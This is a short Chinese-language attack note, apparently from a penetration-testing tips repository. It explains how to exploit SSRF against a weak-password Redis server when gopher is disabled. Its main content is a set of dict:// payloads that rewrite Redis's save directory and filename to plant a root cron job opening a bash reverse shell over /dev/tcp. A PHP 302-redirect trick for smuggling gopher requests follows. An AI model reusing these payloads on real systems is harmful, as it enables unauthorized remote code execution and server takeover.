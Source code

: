 ## 有ssrf+redis弱口令，禁用gopher协议，怎么利用？

1、dict协议也可以操作数据

```
dict://127.0.0.1:6379/config:set:dir:/var/spool/cron
dict://127.0.0.1:6379/config:set:dbfilename:root
dict://127.0.0.1:6379/set:1:nn*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1nn
dict://127.0.0.1:6379/save
```

这是面向未授权的情况，如果存在口令，需要维持会话才可以执行命令。

但dict发完自带一个quit，并不能维持会话。

2、302跳转，利用http跳转换成gopher协议

```
header('Location: gopher://ip:6379/xxxx')
```

## Demo

[一次“SSRF-->RCE”的艰难利用](https://mp.weixin.qq.com/s?__biz=MzUyMDEyNTkwNA==&mid=2247483865&idx=1&sn=41e56040229e383a82a671fc359ee82b)

## 引导

bypass ssrf的方式。